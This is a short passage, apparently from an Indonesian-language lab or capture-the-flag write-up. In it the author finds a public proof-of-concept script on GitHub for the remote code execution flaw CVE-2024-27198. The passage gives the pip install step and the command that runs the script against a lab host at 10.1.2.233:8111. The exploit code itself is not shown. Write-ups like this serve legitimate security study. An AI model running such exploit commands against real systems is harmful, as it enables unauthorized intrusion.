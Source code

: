 <figure><img src=".gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

* Kemudian saya cari script POC yang mungkin orang lain pernah buat, dan ternyata saya menemukannya dari repo GitHub berikut: [https://github.com/W01fh4cker/CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE).
* Saya coba jalankan script tersebut menggunakan command:

```bash
pip3 install requests urllib3 faker
python3 CVE-2024-27198-RCE.py -t http://10.1.2.233:8111
```

<figure><img src=".gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>
